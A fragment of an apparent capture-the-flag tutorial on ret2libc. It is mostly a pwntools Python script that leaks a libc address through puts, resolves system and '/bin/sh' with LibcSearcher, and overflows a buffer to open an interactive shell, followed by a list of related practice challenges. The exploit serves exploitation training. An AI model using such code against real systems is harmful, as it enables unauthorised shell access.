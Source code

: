 ```python
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])

sh.sendlineafter('Can you find it !?', payload)



print "get the related addr"

libc_start_main_addr = u32(sh.recv()[0:4])

libc = LibcSearcher('__libc_start_main', libc_start_main_addr)

libcbase = libc_start_main_addr - libc.dump('__libc_start_main')

system_addr = libcbase + libc.dump('system')

binsh_addr = libcbase + libc.dump('str_bin_sh')



print "get shell"

payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])

sh.sendline(payload)



sh.interactive()



```



### Title


- train.cs.nctu.edu.tw: ret2libc



## topic


- train.cs.nctu.edu.tw: rop
- 2013-PlaidCTF-ropasaurusrex

- Defcon 2015 Qualifier: R0pbaby



## Reference reading
